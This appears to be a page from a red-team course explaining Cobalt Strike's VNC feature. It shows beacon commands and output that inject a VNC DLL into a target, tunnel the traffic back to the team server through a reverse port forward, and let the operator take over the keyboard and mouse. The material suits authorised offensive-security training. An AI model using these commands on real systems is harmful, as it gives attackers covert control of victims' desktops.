 # VNC

Cobalt Strike can also inject an entire reflective VNC DLL to obtain remote control over the user's desktop.  This can be accessed using the `desktop` command, or **Explore > Desktop (VNC)**.

```batch
beacon> help desktop
Use: desktop [pid] [x86|x64] [high|low]
     desktop [high|low]

Injects a VNC server onto the target and connects to it. You may specify
whether or not the session is high or low-quality.

beacon> desktop high
[*] Tasked beacon to spawn VNC server
[+] started port forward on 5117 to 127.0.0.1:5117
```

This will create a reverse port forward on the target, which the VNC DLL will use to tunnel traffic back to the team server.  The team server will also begin listening on the same port for the Cobalt Strike client to connect to.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/23c0366239a7aafa021e6b7bad6b25a8.png" alt="" width="100%"><figcaption></figcaption></figure>

The session is in 'view only' mode by default, but operators can take remote control over the keyboard and mouse using the buttons at the bottom of the window.  Closing this tab will automatically tear down the port bindings.
